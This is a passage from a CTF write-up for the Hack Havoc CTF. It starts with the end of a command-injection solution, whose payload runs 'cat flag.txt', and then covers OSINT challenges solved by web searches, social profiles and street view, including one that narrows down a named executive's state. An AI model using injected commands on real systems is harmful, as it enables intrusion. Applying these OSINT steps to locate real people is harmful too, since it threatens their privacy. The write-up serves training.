{"command":"cat flag.txt"}
```

Flag:- `CM{c0mMAnd_INjEc7iON_f7w}`


# OSINT
## <u>CyberMaterial’s Cyber-Sleuth Newsletter</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** OSINT
* **Point Value / Difficulty:** 20
### Description
This month, there was an incident, and CyberMaterial is fast in publishing the newsletter, as you know. A **Hacker leaked unreleased Netflix content**, with Netflix hit by a major data breach as episodes of Arcane and Heartstopper leaked online.

But wait, they got the scoop before anyone even knew about the hack? 🧐

Let's see if you caught that.
### Solution

As mentioned in the description, I searched for the `netflix content leak cybermaterial` and it lead me to Cybermaterial's website. It didn't have anything. Next I saw a link from cyberbriefing and I found the flag there in the comments.

Flag:- `CM{4rCan3_4nD_h34rTst0pP3r}`


## <u>Meet me here</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** OSINT
* **Point Value / Difficulty:** 30
### Description
You have received an exclusive invitation to a secret CyberMaterial party. The invitation includes a single photo. The message reads, "Can't wait to see you there! Bring your best detective skills. Don't be late!"

Flag Format: CM{6_4_2} Digit means no. of letters in the word together CM{abcdef_abcd_ab} .
### Solution

This the challenge that I spent a lot of unnecessary time on. The solution was really simple tho.

First I went to the socials of `Cover6 Solutions` to find info about the person in the picture.
On insta I found his name. `Tyrone E. Wilson` the CEO. From there I searched him on LinkedIn, and found that he stays in `Virginia`.

Next step I spent the most time on. On google road view I tried to find the place in virginia that had both `waffle inn and subway`.  After frying my braincells altogether, I searched `"Waffle inn" Virginia` and this gave me the answer. It was just that simple.

Flag:- `CM{laurel_hill_rd}`


## <u>APT Intel Hunt</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** OSINT
* **Point Value / Difficulty:** 40
### Description
ou’re up against one of the most notorious APT groups—Lazarus. These cyber troublemakers have been causing chaos, and it’s up to you to outsmart them before they can make their next move.

Word on the street is that they’ve dropped some hints about their latest scheme. A recent CyberMaterial report on their mischievous sub-group, Andariel, might just be the treasure map you need. But remember, Lazarus is like a sneaky cat—hard to catch and always up to something devious.

Can you unravel their devious plans and find the flag before they hit their next target? Put on your detective hat, crack the code, and save the day! The world’s fate might just hang in the balance. 🕵️‍♂️🔓
### Solution

Based on the description I started out with the website of Cybermaterial under `apt` to find for `Lazarus`. I did find out a post but wasn't that helpful.

Did a google search after that including the sub group name `Andariel`, and found another post.


On clicking `Andariel threat group`. It takes to a pastebin link.

```
Compromising their systems will involve a convincing phishing campaign. Ensure it's believable enough to deceive even the most vigilant employees.
 
Operations will commence once our custom malware is ready. 43 Four of our top coders are working tirelessly to craft malware capable of bypassing all known security protocols.
 
Planning for persistence within their systems is crucial. 4d We must ensure our foothold remains undetected and irremovable.
 
Thorough analysis of entry points is essential for lateral movement. 7b With multiple access routes, we'll infiltrate deeper into their network.
 
Executing the extraction phase demands precision. 34 Additional tools will be deployed to gather sensitive data and obscure our tracks.
 
Gathering unauthorized access requires coordination. 70 Every team member must be fully briefed and aware of their responsibilities.
 
Retaining the element of surprise is critical. 54 Our malware must evade detection to maintain operational secrecy.
 
Observation is key during the operation. 5f Continuous monitoring of their network activity will allow us to adapt swiftly.
 
Uninterrupted manipulation of their financial systems is necessary. 47 Success hinges on our ability to alter transactions undetected.
 
Preparation before launch is non-negotiable. 72 All systems must undergo rigorous testing to prevent any mishaps.
 
Senior members are overseeing the final stages. 30 They've provided invaluable guidance and support throughout the planning process.
 
Navigating through their systems will be challenging. 75 Once inside, we'll extract the data we need and erase all traces of our presence.
 
Laundering the stolen funds requires strategic planning. 50 By leveraging our connections, we'll ensure the money remains untraceable.
 
Final preparations are almost complete. 35 The final checks are underway to ensure no loose ends remain.
 
Zero room for error exists in this mission. 5f Our success depends on flawless execution and absolute precision.
 
Activating all stealth protocols is the last step. 4c Any lapse in judgment could compromise the entire operation.
 
Ready to proceed with the final phase. 34 Let’s make sure every team member is prepared to carry out their role.
 
Ultimate success will be achieved through careful planning. 7a We aim to maximize impact while minimizing our risk exposure.
 
System checks are concluding. 34 With all team members in position, the operation is set to launch.
 
Contingency plans are in place for unexpected complications. 52 Any deviation from the plan will be addressed promptly to ensure mission success.
 
Final adjustments to the malware are being completed. 75 Our tools will be optimized to ensure seamless execution during the operation.
 
Deployment of phishing campaigns is scheduled to begin. 35 This will initiate the infiltration phase and set the stage for subsequent actions.
 
Surveillance of target communications is underway. 7d Monitoring their interactions will provide insights into potential vulnerabilities.
```

In this text we can see numbers placed randomly. Just take all and convert back to ascii to get the flag.

```python
''.join(chr(i) for i in [0x43, 0x4d, 0x7b, 0x34, 0x70,0x54, 0x5f, 0x47,0x72,0x30, 0x75, 0x50, 0x35, 0x5f, 0x4c,0x34,0x7a,0x34,0x52,0x75,0x35,0x7d])
```

Flag:- `CM{4pT_Gr0uP5_L4z4Ru5}`


## <u>Catch me !!!</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** OSINT
* **Point Value / Difficulty:** 50
### Description
We’ve got a hot case for you! A beggar on the street is actually a member of Al Capone's mob, and the FBI needs your help to track him down—fast.

We've intercepted a suspicious phone number that seems to be connected to this individual—702.724.86XX. However, two digits are missing. se this along with the provided image and other clues to identify his exact location.

Report back the name of the building infront of which he is sitting flag format CM{abc_abc_abcdefg}
### Solution

A simple google search on the 1st 3 digits of the phone number revealed that the number belongs to `U.S. state of Nevada`. Next in the image, to the left side the street name can be read by an educated guess. It comes down to `Stewart Ave`. Now looking around that place on maps, there was `mob museum`. Opened street view and verified the place.

Flag:- `CM{the_mob_museum}`


## <u>Oops! Where Did I Hide the Flag?</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Crypto
* **Point Value / Difficulty:** 60
### Description
Oops! In the midst of creating this OSINT challenge, I might’ve forgotten where I hid the flag in a video post. I remember it was about some interesting news, alerts, and incidents—so many things. Who knew social media could be so… forgettable? 😅

Put on your detective hat, dive into the social media jungle, and show me you can find what even I forgot! 🕵️‍♂️💡
### Solution

Based on the description, the flag is somewhere in a video post which will have topics like ` interesting news, alerts, and incidents`. Well thats the cyber breifing posts. Went to youtube channel of Cybermaterial only to find out many such videos. Started to see and read the description of every video starting from the latest. 

Finally found the flag in the description of https://www.youtube.com/watch?v=iM4vtqkhmIo

Flag:- `CM{SuB5cR1b3_t0_0ur_Y0u7ub3_Ch4nN3L}`
